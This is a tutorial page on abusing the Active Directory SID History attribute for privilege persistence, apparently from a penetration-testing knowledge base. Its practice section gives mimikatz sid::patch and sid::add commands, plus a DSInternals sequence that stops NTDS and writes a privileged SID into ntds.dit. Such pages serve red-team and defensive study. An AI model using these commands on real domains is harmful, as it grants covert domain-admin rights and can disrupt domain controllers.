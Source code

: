 # SID History

## Theory

The **SID (Security Identifier)** is a unique identifier that is assigned to each security principal (e.g. user, group, computer). It is used to identify the principal within the domain and is used to control access to resources.

The **SID history** is a property of a user or group object that allows the object to retain its SID when it is migrated from one domain to another as part of a domain consolidation or restructuring. When an object is migrated to a new domain, it is assigned a new SID in the target domain. The SID history allows the object to retain its original SID, so that access to resources in the source domain is not lost.

This mechanism can also be abused as a means of persistence: adding the SID of a privileged account or group to the SID-History attribute of a controlled account grants rights associated with account/group of which the SID is added.

For instance, the SID of an account with Domain Admin rights can be added to a normal user SID History to grant them Domain Admin rights (the rights would not be granted per say, but the modified account would be treated as domain admin when checking rights).

## Practice

{% hint style="danger" %}
There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory.
{% endhint %}

### Pre-Windows 2016

Modifying the SID History attribute of an object can be done using mimikatz, with the [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch), [`sid::add`](https://tools.thehacker.recipes/mimikatz/modules/sid/add) and [`sid::lookup`](https://tools.thehacker.recipes/mimikatz/modules/sid/lookup) commands.

Mimikatz cannot be used on 2016+ domain controllers for that purpose, due to an error with [`sid::patch`](https://tools.thehacker.recipes/mimikatz/modules/sid/patch) ([https://github.com/gentilkiwi/mimikatz/issues/348](https://github.com/gentilkiwi/mimikatz/issues/348))

{% hint style="warning" %}
Mimikatz must be launched with at least enough privileges to perform the [`privilege::debug`](https://tools.thehacker.recipes/mimikatz/modules/privilege/debug) command (i.e. domain admin or `SYSTEM`).
{% endhint %}

```batch
# Generic command
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:UserRecievingTheSID /new:SIDOfTheTargetedUserOrGroup"

# Example 1 : Use this command to inject the SID of built-in administrator account to the SID-History attribute of AttackerUser
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:Builtin\administrators "

# Example 2 : Use sid::lookup to retrieve the SID of an account and inject it to the SID-History attribute of AttackerUser
mikikatz.exe "sid::lookup /name:InterestingUser"
mikikatz.exe "privilege::debug" "sid::patch" "sid::add /sam:AttackerUser /new:SIDOfInterestingUser"
```

### Post-Windows 2016

The only known way to add a SID to the SID History attribute of an account on a Windows domain controller 2016 and above is to use the Powershell module [DSInternals](https://github.com/MichaelGrafnetter/DSInternals). This method also works for Pre-Windows 2016 domain controllers.

{% hint style="danger" %}
The NTDS service must be stopped at some point and restarted for this procedure to work, which can cause various issues. Proceed with care, avoid production systems.
{% endhint %}

```powershell
# Install DSInternals on the domain controller
Install-Module -Name DSInternals

# Find the account SID you want to inject
Get-ADUser -Identity $InterestingUser

# Stop the NTDS service
Stop-service NTDS -force

# Inject the SID into the SID History attribute
Add-ADDBSidHistory -samaccountname AttackerUser -sidhistory $SIDOfInterestingUser -DBPath C:\Windows\ntds\ntds.dit

# Start the NTDS service
Start-service NTDS
```

## Resources

{% embed url="https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory" %}

{% embed url="https://attack.mitre.org/techniques/T1134/005/" %}

{% embed url="https://adsecurity.org/?p=1772" %}

{% embed url="https://forum.winbatch.com/index.php?topic=1545.0" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory#operational-constraints" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/ntdsapi/nf-ntdsapi-dsaddsidhistorya" %}

{% embed url="https://secframe.com/blog/a-sidhistory-attack-marching-onto-a-dc/" %}
